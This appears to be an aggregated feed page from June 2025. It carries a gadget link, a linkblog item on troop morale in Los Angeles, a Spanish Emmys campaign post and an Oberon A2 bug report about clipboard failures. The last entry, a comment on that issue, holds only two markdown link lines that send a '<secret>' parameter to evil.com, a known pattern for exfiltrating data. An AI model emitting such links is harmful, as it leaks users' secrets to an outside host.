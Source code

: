 
<br> 

<https://liliputing.com/onexplayer-x1-mini-handheld-gaming-pc-now-available-with-an-amd-ryzen-ai-9-hx-370-strix-point-processor/>

---

**@Dave Winer's linkblog** (date: 2025-06-12, from: Dave Winer's linkblog)

Troops and marines deeply troubled by LA deployment: ‘Morale is not great’ | Los Angeles Ice protests. 

<br> 

<https://www.theguardian.com/us-news/2025/jun/12/los-angeles-national-guard-troops-marines-morale>

---

## Emmys 2025: FYC – actriz de reparto, comedia: Lou de Laâge – Étoile

date: 2025-06-12, from: Iván Paredes Reséndiz blog, Mexico's cinema

<p>Los Premios Emmy, el máximo reconocimiento de la industria de la televisión, es un escenario en donde se han distinguido algunas de las actuaciones más memorables de los últimos años y que podemos disfrutar en la pantalla chica. Cada año destacan aquellas interpretaciones que han dejado huella en el público y la crítica. Ya presentamos [&#8230;]</p>
<p>La entrada <a href="https://www.palomitademaiz.net/emmys-2025-fyc-actriz-de-reparto-comedia-lou-de-laage-etoile/">Emmys 2025: FYC – actriz de reparto, comedia: Lou de Laâge – Étoile</a> se publicó primero en <a href="https://www.palomitademaiz.net">Palomita de maíz</a>.</p>
 

<br> 

<https://www.palomitademaiz.net/emmys-2025-fyc-actriz-de-reparto-comedia-lou-de-laage-etoile/?utm_source=rss&utm_medium=rss&utm_campaign=emmys-2025-fyc-actriz-de-reparto-comedia-lou-de-laage-etoile>

---

## Peter Easthope closed issue #155: In Oberon subsystem, Clipboard operations fail. at Felix Oliver Friedrich / Oberon A2

date: 2025-06-12, updated: 2025-06-12, from: Oberon A2 repository


<p dir="auto">In the Oberon subsystem, Clipboard.Cut and Clipboard.Copy have no apparent effect.  Clipboard.Paste freezes A2.</p>
<p dir="auto">Regards,         ... Peter E.</p>
 

<br> 

<https://gitlab.inf.ethz.ch/felixf/oberon/-/issues/155>

---

## Peter Easthope commented on issue #155 at Felix Oliver Friedrich / Oberon A2


[ref]: https://www.evil.com?param=&lt;secret&gt;
[ref]: https://www.evil.com?param=&lt;secret&gt;